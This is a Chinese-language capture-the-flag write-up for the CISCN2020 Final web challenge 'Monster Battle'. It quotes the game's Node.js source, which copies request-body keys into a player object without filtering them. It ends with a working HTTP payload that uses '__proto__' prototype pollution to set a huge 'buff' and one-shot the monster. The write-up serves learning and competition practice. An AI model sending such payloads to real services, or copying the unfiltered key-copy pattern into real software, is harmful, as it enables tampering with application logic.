 # CISCN2020 Final  Monster Battle
这是源码[传送门](./web2-src.zip), 先`npm install`安装依赖, 再`node app.js`运行环境即可
题目给了源码, 打斗的逻辑并不复杂, 关键部分其实主要就下面这些
```js

let tempPlayer = req.body

        for ( let i in tempPlayer )
        {
            if (player[i]) {
                if ( (i == 'career' && !careers.includes(tempPlayer[i])) || (i == 'item' && !items.includes(tempPlayer[i])) || (i == 'round_to_use' && !checkRound(tempPlayer[i])) || tempPlayer[i] === '') {
                    continue
                }
                player[i] = tempPlayer[i] //存在可控键名, 即key、value均可控
            }
        }
        player.num = 1; //player剩余可`使用物品`的次数
        player.HP = 100; //HP为血量
        player.aggressivity = getPlayerAggressivity()

        initMonster()
        res.redirect("/battle")
    } else {
        res.redirect("/")
    }
})
```
那么只需污染没有初始化的参数即可，要么【让我们变强】，要么【让怪兽变弱】，显然前者更为容易，因为有一个特殊的机——buff。
在源码中， buff的作用是在计算纯粹伤害的时候体现，因此，只要我们将buff的值设置为很大，即可达到瞬秒怪兽的效果。
```js
function  getPlayerDamageValue() //计算纯粹伤害
{
    if (player.buff) {
        return keepTwoDecimal(player.aggressivity+player.buff)
    } else return player.aggressivity
}
```
当然，此题还有一点需注意，要想保持高buff, 对人物角色和技能都有一定限制
```js
function triggerPassiveSkill() //触发被动技能
{
    switch (player.career) {
        case "warrior":
            player.buff = 5
            return 1
        case "high_priest" :
            player.HP += 10
            player.HP = keepTwoDecimal(player.HP)
            return 2
        case 'shooter' :
            player.buff = 7
            return 3
        default:
            return 0
    }
}
```
上面这点, 决定了我们的身份只能是`high_priest`, 因为当流程进入其它两个分支时, 都会将buff变为正常值.
而下面的代码, 则决定了我们的技能最好不要是`BYZF`, 因为当进入这个分支时, buff值也会变为正常值(可以设定为第二、三回合再使用技能, 但不够暴力没内味儿)
```js
function playerUseItem(round)
{
    //ZLYG：治疗药膏，使用后回复10点生命值
    //BYZF：白银之锋，使用后的一次攻击将触发暴击并造成130%的伤害
    //XELD：邪恶镰刀，使用后将对方的一次攻击的攻击力变为80%
    if (round == player.round_to_use && player.num == 1)
    {
        player.num = 0;
        switch (player.item) {
            case "ZLYG":
                player.HP += 10;
                return  1;
            case "BYZF":
                player.buff = player.aggressivity * 0.3;
                player.buff = keepTwoDecimal(player.buff)
                return 2;
            case "XELD":
                monster.buff = monster.aggressivity * (1 - 0.8) * (-1);
                monster.buff = keepTwoDecimal(monster.buff)
                return 3;
        }
    } else return 0
}
```
最终payload, 同样：请注意请求头`Content-Type: application/json`
```http
POST /start HTTP/1.1
Content-Type: application/json

{"name":1, "round_to_use":2, "career":"high_priest", "item":"BYZF","__proto__":{"buff":10000}}
```
